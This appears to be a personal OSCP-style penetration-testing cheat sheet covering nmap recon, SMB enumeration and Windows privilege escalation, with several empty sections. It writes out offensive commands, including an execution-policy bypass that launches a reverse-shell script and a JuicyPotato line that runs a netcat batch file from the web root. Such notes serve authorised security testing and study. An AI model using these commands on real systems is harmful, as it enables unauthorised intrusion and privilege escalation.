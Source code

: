 # Recon

```
$ nmap -v -sSV -p [port1, port2] -Pn [host] -oN [filename]   # verbose, syn-stealth, svc versions, target ports, no-ping,
$ nmap -v -sUV -p [port1, port2] -Pn [host] -oN [filename]   # UDP
```


## Initial Exploitation

### Shells

Have a web shell? Check if server can reach you:
```
$ sudo tcpdump -i tun0 -n icmp -v
```

Execute PowerShell script non-interactively:
```
$ powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"
```


### FTP [21 TCP]


### SMB/Samba [139, 445 TCP]

Enumerate via. SMB.
```
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Check for SMB vulnerabilities.
```
$ nmap --script smb-vuln-* [target]
```



## Linux Privilege Escalation


## Windows Privilege Escalation

### Service Permissions

```
# windows/winXP
> icacls/cacls [fullpath/to/service]

# powershell
PS> Get-Acl
PS> Get-ChildItem | Get-Acl
```

### File & Folder Permissions

### Acecss Token Abuse

https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad


JuicyPotato - `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled.
```
> whoami /privs
> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c
```



## Password Cracking

Online cracker: https://crackstation.net/
